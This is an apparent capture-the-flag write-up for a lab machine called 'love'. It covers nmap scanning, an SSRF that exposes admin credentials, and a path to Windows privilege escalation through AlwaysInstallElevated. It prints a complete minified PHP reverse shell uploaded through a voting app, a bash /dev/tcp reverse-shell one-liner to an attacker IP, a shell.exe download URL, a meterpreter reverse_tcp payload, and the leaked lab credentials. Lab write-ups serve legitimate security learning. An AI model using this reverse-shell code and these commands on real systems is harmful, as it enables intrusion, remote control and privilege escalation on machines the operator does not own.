


# love



### 05/02/2021

Running nmap at  first to discover open port and services versions: 



First contact with the website:


In the URL input we can try a SSRF vulnerability to access internal system and ports: It shows admin credentials: 


Into /admin directory we use the credentials to login.


This is a vote system and have some alternatives to input malicious codes: 


[https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/minified/php_reverse_shell_mini.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/minified/php_reverse_shell_mini.php)

let's try PHP reverse shell in the new candidate:

```jsx
<?php class Sh{private $a=null;private $p=null;private $os=null;private $sh=null;private $ds=array(0=>array('pipe','r'),1=>array('pipe','w'),2=>array('pipe','w'));private $o=array();private $b=1024;private $c=0;private $e=false;public function __construct($a,$p){$this->a=$a;$this->p=$p;if(stripos(PHP_OS,'LINUX')!==false){$this->os='LINUX';$this->sh='/bin/sh';}else if(stripos(PHP_OS,'WIN32')!==false||stripos(PHP_OS,'WINNT')!==false||stripos(PHP_OS,'WINDOWS')!==false){$this->os='WINDOWS';$this->sh='cmd.exe';$this->o['bypass_shell']=true;}else{$this->e=true;echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";}}private function dem(){$e=false;@error_reporting(0);@set_time_limit(0);if(!function_exists('pcntl_fork')){echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";}else if(($p=@pcntl_fork())<0){echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";}else if($p>0){$e=true;echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";}else if(posix_setsid()<0){echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";}else{echo "DAEMONIZE: Completed successfully!\n";}@umask(0);return $e;}private function d($d){$d=str_replace('<','&lt;',$d);$d=str_replace('>','&gt;',$d);echo $d;}private function r($s,$n,$b){if(($d=@fread($s,$b))===false){$this->e=true;echo"STRM_ERROR: Cannot read from ${n}, script will now exit...\n";}return $d;}private function w($s,$n,$d){if(($by=@fwrite($s,$d))===false){$this->e=true;echo"STRM_ERROR: Cannot write to ${n}, script will now exit...\n";}return $by;}private function rw($i,$o,$in,$on){while(($d=$this->r($i,$in,$this->b))&&$this->w($o,$on,$d)){if($this->os==='WINDOWS'&&$on==='STDIN'){$this->c+=strlen($d);}$this->d($d);}}private function brw($i,$o,$in,$on){$s=fstat($i)['size'];if($this->os==='WINDOWS'&&$in==='STDOUT'&&$this->c){while($this->c>0&&($by=$this->c>=$this->b?$this->b:$this->c)&&$this->r($i,$in,$by)){$this->c-=$by;$s-=$by;}}while($s>0&&($by=$s>=$this->b?$this->b:$s)&&($d=$this->r($i,$in,$by))&&$this->w($o,$on,$d)){$s-=$by;$this->d($d);}}public function rn(){if(!$this->e&&!$this->dem()){$soc=@fsockopen($this->a,$this->p,$en,$es,30);if(!$soc){echo"SOC_ERROR: {$en}: {$es}\n";}else{stream_set_blocking($soc,false);$proc=@proc_open($this->sh,$this->ds,$pps,'/',null,$this->o);if(!$proc){echo "PROC_ERROR: Cannot start the shell\n";}else{foreach($pps as $pp){stream_set_blocking($pp,false);}@fwrite($soc,"SOCKET: Shell has connected! PID: ".proc_get_status($proc)['pid']."\n");do{if(feof($soc)){echo "SOC_ERROR: Shell connection has been terminated\n";break;}else if(feof($pps[1])||!proc_get_status($proc)['running']){echo "PROC_ERROR: Shell process has been terminated\n";break;}$s=array('read'=>array($soc,$pps[1],$pps[2]),'write'=>null,'except'=>null);$ncs=@stream_select($s['read'],$s['write'],$s['except'],null);if($ncs===false){echo "STRM_ERROR: stream_select() failed\n";break;}else if($ncs>0){if($this->os==='LINUX'){if(in_array($soc,$s['read'])){$this->rw($soc,$pps[0],'SOCKET','STDIN');}if(in_array($pps[2],$s['read'])){$this->rw($pps[2],$soc,'STDERR','SOCKET');}if(in_array($pps[1],$s['read'])){$this->rw($pps[1],$soc,'STDOUT','SOCKET');}}else if($this->os==='WINDOWS'){if(in_array($soc,$s['read'])){$this->rw($soc,$pps[0],'SOCKET','STDIN');}if(fstat($pps[2])['size']){$this->brw($pps[2],$soc,'STDERR','SOCKET');}if(fstat($pps[1])['size']){$this->brw($pps[1],$soc,'STDOUT','SOCKET');}}}}while(!$this->e);foreach($pps as $pp){fclose($pp);}proc_close($proc);}fclose($soc);}}}}echo '<pre>';$sh=new Sh('127.0.0.1',9000);$sh->rn();echo '</pre>';unset($sh);/*@gc_collect_cycles();*/ ?>
```

Upload the reverse shell.


With that we received the reverse connection, now let1s explore the machine.


Reading some files:


Finding the user flag:


```jsx
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Article to some windows privilege escalation: 

[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)

Using winpeas we have the capacity of Always Install Elevated privilege escalation


if we have the 0x01 can make the escalation

Create the reverse shell to get in metasploit.


Create reverse exe, start multi handler in metasploit and invoke in powershell on the windows side.


Make the multi handler with payload meterpreter:

```jsx
windows/meterpreter/reverse_tcp
```

Escalate:


Success


```jsx
10.10.10.239 
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in

445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

Vote Admin Creds admin:@LoveIsInTheAir!!!! 
10.10.14.185",3332

0<&196;exec 196<>/dev/tcp/10.10.14.185/3332; sh <&196 >&196 2>&196

http://10.10.14.185:7773/shell.exe
```

[https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1)

[https://pentestlab.blog/2017/02/28/always-install-elevated/](https://pentestlab.blog/2017/02/28/always-install-elevated/)